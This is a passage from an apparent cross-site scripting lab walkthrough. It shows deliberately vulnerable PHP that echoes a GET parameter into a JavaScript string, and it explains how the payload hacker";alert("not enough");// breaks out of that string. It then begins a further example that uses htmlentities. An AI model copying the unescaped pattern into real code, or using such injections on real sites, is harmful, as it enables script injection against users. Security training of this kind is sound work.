 PHP source:


``` php
<?php require_once '../header.php'; ?>
Hello
<script>
	var $a= "<?php  echo $_GET["name"]; ?>";
</script>
	<?php require_once '../footer.php'; ?>
```


This time, whatever we place inside the name variable is assigned to a variable. The page source looks like this:


``` html
Hello
<script>
	var $a= "hacker";
</script>
```


We want to build on the existing code and add our own. This means we will have to close the quotes and add our payload. First, I inserted something to see the changes:


``` plain
hacker";INJECTION
```


And in the HTML code I saw this:


``` plain
var $a= "hacker";INJECTION";
```


The part up to the first semicolon is what we want, then we have to place our payload, but a stray doublequote and semicolon remain. To get rid of them, I commented them out, and the final injection looked like this:


``` plain
hacker";alert("not enough");//
```


And in the source it is rendered the following way:


``` plain
var $a= "hacker";alert("not enough");//";
```


**Example 7**

PHP code:


``` php
<?php require_once '../header.php'; ?>
Hello
<script>
	var $a= '<?php  echo htmlentities($_GET["name"]); ?>';
</script>

<?php require_once '../footer.php'; ?>
```

